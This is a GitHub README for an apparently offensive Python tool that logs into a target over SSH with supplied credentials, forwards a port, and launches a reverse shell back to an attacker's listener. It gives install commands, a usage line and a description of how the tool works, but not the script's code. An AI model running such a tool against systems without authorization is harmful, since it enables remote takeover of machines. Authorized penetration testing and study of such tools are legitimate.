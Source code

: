# Remote SSH Reverse Shell Executor

> ⚠️ **Disclaimer:** This tool is intended for educational and authorized penetration testing purposes only. Unauthorized access to systems is illegal.

## 📌 Description

A Python script to automate SSH port forwarding and trigger a reverse shell on the target machine via Paramiko. It uses SSH credentials to connect to the remote host, sets up port forwarding, and then executes a reverse shell payload.

---

## ✍️ Author

- **Name:** Uday  
- **X (Twitter):** [@udaypro2008](https://x.com/udaypro2008)  
- **GitHub:** [ExtremeUday](https://github.com/ExtremeUday)  
- **HackTheBox:** ExtremeUday2

---

## ⚙️ Features

- SSH login using username & password
- Port forwarding from remote to local (binds to `localhost:2222`)
- Executes reverse shell back to attacker's machine
- Uses `paramiko` for SSH connection and command execution

---

## 📥 Requirements

- Python 3.x
- `paramiko` module
- `sshpass` installed on system

Install Python dependencies:
```bash
pip install paramiko
sudo apt install sshpass
```
---
## 🚀 Usage
```
python3 ssh_reverse_shell.py -ip <TARGET_IP> -user <USERNAME> -passwd <PASSWORD> -lhost <LOCAL_HOST> -lport <LOCAL_PORT>
```
---

## 📡 How it Works

- Sets up port forwarding from target to your machine via SSH.
- Waits 2 seconds to stabilize the connection.
- Connects to the forwarded port (127.0.0.1:2222) via Paramiko.
- Executes a reverse shell payload targeting your listener.

## 🛡️ Legal Notice

- This project is for educational purposes only. Do not use it on any system without explicit permission. The author is not responsible for any misuse or damage caused by this script.

---

## 📂 File Structure
```
.
├── Remote-SSH-Reverse-Shell.py   # Main script
└── README.md                     # Project info
```

